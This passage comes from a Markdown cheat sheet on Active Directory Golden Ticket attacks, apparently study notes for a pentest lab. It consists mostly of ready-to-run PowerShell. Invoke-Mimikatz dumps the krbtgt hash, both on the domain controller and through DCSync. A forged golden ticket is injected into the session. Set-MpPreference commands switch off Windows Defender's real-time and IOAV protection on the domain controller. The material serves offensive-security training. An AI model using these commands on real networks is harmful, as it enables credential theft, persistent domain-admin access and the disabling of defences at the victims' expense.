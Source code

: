 ### <span style="color:#F1C232">3. Execute mimikatz on DC as DA to get krbtgt hash</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computer-name>
```

### <span style="color:#F1C232">4. Create a ticket on any machine ( "pass the ticket" attack )</span>

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:domain-name-goes-here /sid:sid-goes-here /krbtgt:hash-goes-here id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

> **/ptt** : Inject the ticket in the current Powershell process/does not have the ticket on disk
> **/ticket** : Saves the ticket to a file for later use
> **/startoffset** : Put proper offset values according to the domain policy using 
> **(Get-DomainPolicy -domain moneycorp.local)."kerberos policy"** else the session might get blocked/not created
{: .prompt-info }
### <span style="color:#F1C232">5. List Kerberos services available</span>

```powershell
klist
```
## <span style="color:lightgreen">Extra Commands</span>

### <span style="color:#F1C232">To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
> Using the DCSync option needs no code execution (no need to run Invoke-Mimikatz) on the target DC
{: .prompt-info }
### <span style="color:#F1C232">Using NTML hash of KRBTGT to create a Golden Ticket</span>

+ Requires DA privs which can be done by used over-pass-the-hash to start a PowerShell session as domain admin.
+ Enter a PSSession to the domain controller and dump the hashes.

```powershell
# Enter session
powershell -ep bypass
$sess = New-PSSession -ComputerName <computer-name>
Enter-PSSession $sess
# Bypass Protections
[star-dc]:PS> Set-MpPreference -DisableRealtimemonitoring $true 
[star-dc]:PS> Set-MpPreference -DisableIOAVProtection $true
# exit PSRemote session
exit
# Get the KRBTGT hash
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession $sess
[star-dc]:PS> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
[star-dc]:PS> Invoke-Mimikatz
```
